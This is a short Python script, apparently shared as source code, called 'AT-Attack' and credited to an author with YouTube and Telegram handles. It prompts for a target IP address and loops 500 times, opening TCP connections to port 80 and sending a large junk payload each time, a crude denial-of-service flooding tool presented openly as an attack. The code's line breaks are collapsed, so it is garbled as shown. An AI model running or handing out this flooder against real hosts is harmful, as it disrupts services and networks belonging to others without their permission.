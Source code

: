 # AT-Attack
v = "\033[0;32m" print (v+"By Ahmed Tahseen") print(v+"YouTube - Iraq4 Linux") print (v+"Telegram - ahmed_ta2 ") print (v+"AT-Attack") import socket print("") ip=input("Enter ip : ");print("Attack ip") for h in range(500):   try:       knig=socket.socket(socket.AF_INET,socket.SOCK_STREAM)       socket.setdefaulttimeout(1)       Jmeel=knig.connect((ip,80))       data="knig123djdjchdjchcndidj$+$-*:%+$-¿¿¿el"*7000       data=data.encode("utf-8")       knig.send(data)       #print("start attack by tool at-attack")     except :    print("start attack by at-attack")  #   print(C+"                     no problem in the ip",YY,ip)
